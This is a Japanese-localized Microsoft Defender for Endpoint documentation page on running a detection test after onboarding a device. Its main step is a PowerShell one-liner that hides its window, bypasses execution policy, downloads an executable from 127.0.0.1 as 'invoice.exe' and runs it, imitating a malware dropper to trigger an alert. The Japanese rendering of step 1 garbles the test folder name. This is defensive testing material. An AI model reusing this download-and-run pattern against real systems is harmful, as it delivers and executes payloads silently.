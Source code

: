 ```yaml
---
title: 新しくオンボードされた Microsoft Defender for Endpoint デバイスで検出テストを実行する
description: 新しくオンボードされたデバイスで検出スクリプトを実行して、Microsoft Defender for Endpoint サービスに正しくオンボードされていることを確認します。
keywords: 検出テスト、検出、powershell、スクリプト、検証、オンボーディング、エンドポイントオンボーディング用 Microsoft Defender、クライアント、サーバー、テスト
search.product: eADQiWindows 10XVcnh
search.appverid: met150
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
ms.author: macapara
author: mjcaparas
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- m365-security-compliance
- m365initiative-defender-endpoint
ms.topic: article
ms.technology: mde
ms.openlocfilehash: 2bb1fde1bfd8ddfa358d1141c3821843e532a8bf
ms.sourcegitcommit: efb932db63ad3ab4af4b585428d567d069410e4e
ms.translationtype: MT
ms.contentlocale: ja-JP
ms.lasthandoff: 05/11/2021
ms.locfileid: "52312002"
---
```

# <a name="run-a-detection-test-on-a-newly-onboarded-microsoft-defender-for-endpoint-device"></a><span data-ttu-id="6ba6b-104">新しくオンボードされた Microsoft Defender for Endpoint デバイスで検出テストを実行する</span><span class="sxs-lookup"><span data-stu-id="6ba6b-104">Run a detection test on a newly onboarded Microsoft Defender for Endpoint device</span></span> 

[!INCLUDE [Microsoft 365 Defender rebranding](../../includes/microsoft-defender.md)]


<span data-ttu-id="6ba6b-105">**適用対象:**</span><span class="sxs-lookup"><span data-stu-id="6ba6b-105">**Applies to:**</span></span>
- <span data-ttu-id="6ba6b-106">サポートされているWindows 10バージョン</span><span class="sxs-lookup"><span data-stu-id="6ba6b-106">Supported Windows 10 versions</span></span>
- <span data-ttu-id="6ba6b-107">Windows Server 2012 R2</span><span class="sxs-lookup"><span data-stu-id="6ba6b-107">Windows Server 2012 R2</span></span>
- <span data-ttu-id="6ba6b-108">Windows Server 2016</span><span class="sxs-lookup"><span data-stu-id="6ba6b-108">Windows Server 2016</span></span>
- <span data-ttu-id="6ba6b-109">Windowsサーバー、バージョン 1803</span><span class="sxs-lookup"><span data-stu-id="6ba6b-109">Windows Server, version 1803</span></span>
- <span data-ttu-id="6ba6b-110">WindowsServer, 2019</span><span class="sxs-lookup"><span data-stu-id="6ba6b-110">Windows Server, 2019</span></span>
- [<span data-ttu-id="6ba6b-111">Microsoft Defender for Endpoint</span><span class="sxs-lookup"><span data-stu-id="6ba6b-111">Microsoft Defender for Endpoint</span></span>](https://go.microsoft.com/fwlink/?linkid=2154037)
- [<span data-ttu-id="6ba6b-112">Microsoft 365 Defender</span><span class="sxs-lookup"><span data-stu-id="6ba6b-112">Microsoft 365 Defender</span></span>](https://go.microsoft.com/fwlink/?linkid=2118804)

> <span data-ttu-id="6ba6b-113">Microsoft Defender ATP を試してみたいですか?</span><span class="sxs-lookup"><span data-stu-id="6ba6b-113">Want to experience Microsoft Defender for Endpoint?</span></span> [<span data-ttu-id="6ba6b-114">無料試用版にサインアップしてください。</span><span class="sxs-lookup"><span data-stu-id="6ba6b-114">Sign up for a free trial.</span></span>](https://www.microsoft.com/microsoft-365/windows/microsoft-defender-atp?ocid=docs-wdatp-exposedapis-abovefoldlink)

<span data-ttu-id="6ba6b-115">新しくオンボードされたデバイスで次の PowerShell スクリプトを実行して、Defender for Endpoint サービスに適切に報告されていることを確認します。</span><span class="sxs-lookup"><span data-stu-id="6ba6b-115">Run the following PowerShell script on a newly onboarded device to verify that it is properly reporting to the Defender for Endpoint service.</span></span>

1. <span data-ttu-id="6ba6b-116">フォルダーを作成する: 'C:\test-test-test'MDATPを作成します。</span><span class="sxs-lookup"><span data-stu-id="6ba6b-116">Create a folder:  'C:\test-MDATP-test'.</span></span>
2. <span data-ttu-id="6ba6b-117">デバイスで管理者特権のコマンド ライン プロンプトを開き、スクリプトを実行します。</span><span class="sxs-lookup"><span data-stu-id="6ba6b-117">Open an elevated command-line prompt on the device and run the script:</span></span>

   1. <span data-ttu-id="6ba6b-118">**[スタート]** をクリックし、「**cmd**」と入力します。</span><span class="sxs-lookup"><span data-stu-id="6ba6b-118">Go to **Start** and type **cmd**.</span></span>

   1. <span data-ttu-id="6ba6b-119">[コマンド プロンプト] を **右クリックし、[** 管理者として **実行] を選択します**。</span><span class="sxs-lookup"><span data-stu-id="6ba6b-119">Right-click **Command Prompt** and select **Run as administrator**.</span></span>

      ![[ウィンドウのスタート] メニューの [管理者として実行] をポイントする](images/run-as-admin.png)

3. <span data-ttu-id="6ba6b-121">プロンプトで、次のコマンドをコピーして実行します。</span><span class="sxs-lookup"><span data-stu-id="6ba6b-121">At the prompt, copy and run the following command:</span></span>

   ```powershell
   powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
   ```

<span data-ttu-id="6ba6b-122">[コマンド プロンプト] ウィンドウが自動的に閉じます。</span><span class="sxs-lookup"><span data-stu-id="6ba6b-122">The Command Prompt window will close automatically.</span></span> <span data-ttu-id="6ba6b-123">成功した場合、検出テストは完了としてマークされ、約 10 分でオンボード デバイスのポータルに新しいアラートが表示されます。</span><span class="sxs-lookup"><span data-stu-id="6ba6b-123">If successful, the detection test will be marked as completed and a new alert will appear in the portal for the onboarded device in approximately 10 minutes.</span></span>

## <a name="related-topics"></a><span data-ttu-id="6ba6b-124">関連項目</span><span class="sxs-lookup"><span data-stu-id="6ba6b-124">Related topics</span></span>
- [<span data-ttu-id="6ba6b-125">Windows 10 デバイスのオンボード</span><span class="sxs-lookup"><span data-stu-id="6ba6b-125">Onboard Windows 10 devices</span></span>](configure-endpoints.md)
- [<span data-ttu-id="6ba6b-126">オンボード サーバー</span><span class="sxs-lookup"><span data-stu-id="6ba6b-126">Onboard servers</span></span>](configure-server-endpoints.md)
- [<span data-ttu-id="6ba6b-127">Microsoft Defender for Endpoint オンボーディングの問題のトラブルシューティング</span><span class="sxs-lookup"><span data-stu-id="6ba6b-127">Troubleshoot Microsoft Defender for Endpoint onboarding issues</span></span>](https://docs.microsoft.com/microsoft-365/security/defender-endpoint/troubleshoot-onboarding)
